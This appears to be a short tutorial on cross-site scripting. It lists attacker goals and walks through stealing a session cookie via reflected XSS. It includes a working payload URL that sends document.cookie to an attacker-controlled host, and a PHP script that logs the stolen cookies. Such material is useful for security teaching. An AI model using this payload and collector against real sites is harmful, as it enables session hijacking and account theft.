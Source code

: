 ## **What Can Attacker Do With The XSS ?**

**Cross site scripting attacks can be used to achieve many goals**

- **Cookie stealing**
- **Getting complete over a browser**
- **Initiating an exploitation phase against browser plugins first and then the machine**
- **Perfom keylogging**
- **Defacing a web site, altering the original appearance**

## **Stealing Cokkie With XSS Sample**

**Lets assume that the ultimate goal of an hacker is to run JavaScript to steal a sesion cookie of a user John Doe who is authenticated into web site site2.com**\
**The first thing the hacker tries to do is to find an XSSvulnerability affecting website**\
**Once an XSS is located , attacker will have to build up a payload, create link and sent it to victim inviting the same to click on it. (This is called refleccted xss)**

`http://site2.com/vulnerablexss.php?name=<script>var i=new Image(); i.src="http://site1.com/steal.php?q="%2bdocument.cookie;</script>`

Here is the attacker malicous web site to steal cookie of the user. (site1.com/steal.php web site is made by attacker)

```
<?php

$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh,$cookie);
fclose($fh);

?>
```

Attacker open txt file and write to cookie value of vulnerable web site to the this file.

---

Firstly attacker find xss on the victim site

![Image](/img/stealcookiexss.png)

Then Attacker send malicious link to the user and user click on it

![Image](/img/clicked.png)

Attacker write cookie value to the log.txt file

![Image](/img/readcookie.png)
